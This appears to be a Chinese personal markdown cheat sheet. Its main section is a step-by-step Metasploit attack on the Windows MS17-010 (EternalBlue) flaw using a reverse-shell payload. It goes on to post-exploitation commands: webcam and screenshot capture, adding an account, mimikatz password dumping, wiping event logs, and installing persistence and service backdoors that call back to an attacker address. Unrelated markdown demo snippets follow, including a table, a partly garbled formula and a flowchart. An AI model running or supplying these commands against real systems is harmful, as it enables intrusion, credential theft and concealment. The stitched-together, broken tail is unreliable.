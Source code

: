 # ms17-010
- 漏洞扫描
		msfconsole  
		use auxiliary/scanner/smb/smb_ms17_010
		set RHOSTS 192.168.1.129  
		run  
- 使用攻击模块
		use exploit/windows/smb/ms17_010_eternalblue		
		set RHOST 192.168.1.129
		set PAYLOAD windows/x64/meterpreter/reverse_tcp
		run

		getuid    											--查询当前用户权限为SYSTEM,获取到到最高权限
		sysinfo   											--系统信息查询
		screenshot											--桌面抓图
		webcam_scream										--视频开启
		run post/windows/manage/enable_rdp 					--开启远程连接
		shell												--直接进入系统shell,添加账号
		net user test 123 /add
		load mimikatz										--获取系统管理密码
		wdigest
		tspkg
		mimikatz_command -f samdump::hashes
		mimikatz_command -f sekurlsa::searchPasswords
		rdesktop -f 192.168.1.115:3389 -u Administrator -p 2003	--开启远程连接
		clearav  												--清除windows中的应用程序日志、系统日志、安全日志
- 后门植入 persistence启动项后门#-X指定启动的方式为开机自启动，-i反向连接的时间间隔(5s) –r 指定攻击者的ip
		run persistence -X -i 5 -p 6661 -r 192.168.1.126  
		msf > use exploit/multi/handler
		msf > set payload windows/meterpreter/reverse_tcp
		msf > set LHOST 192.168.1.126
		msf > set LPORT 6661
		msf > exploit
- 后门植入 metsvc服务后门在C:\Users***\AppData\Local\Temp\上传了三个文件（metsrv.x86.dll、metsvc-server.exe、metsvc.exe），通过服务启动，服务名为meterpreter
		run metsvc –A   										--自动安装后门
		msf > use exploit/multi/handler
		msf > set payload windows/metsvc_bind_tcp
		msf > set RHOST 192.168.159.144
		msf > set LPORT 31337
		msf > exploit

# ms08_067
# ms14_064
# ms10_061
# ms03_026
# ms06_040
	chcp 65001					--解决乱码问题


姓名|技能|排行
--|:--:|--:
刘备|哭|大哥
关羽|打|二哥
张飞|骂|三弟

|  表头   | 表头  |
|  ----  | ----  |
| 单元格  | 单元格 |
| 单元格  | 单元格 |

使用 <kbd>Ctrl</kbd>+<kbd>Alt</kbd>+<kbd>Del</kbd> 重启电脑


$$
\mathbf{V}_1 \times \mathbf{V}_2 =  \begin{vmatrix}
\mathbf{i} & \mathbf{j} & \mathbf{k} \\
\frac{\partial X}{\partial u} &  \frac{\partial Y}{\partial u} & 0 \\
\frac{\partial X}{\partial v} &  \frac{\partial Y}{\partial v} & 0 \\
\end{vmatrix}
$$tep1}{\style{visibility:hidden}{(x+1)(x+1)}}
$$




flow
st=>start: Start
op=>operation: Your Operation
cond=>condition: Yes or No?
e=>end
st->op->cond
cond(yes)->e
cond(no)->op
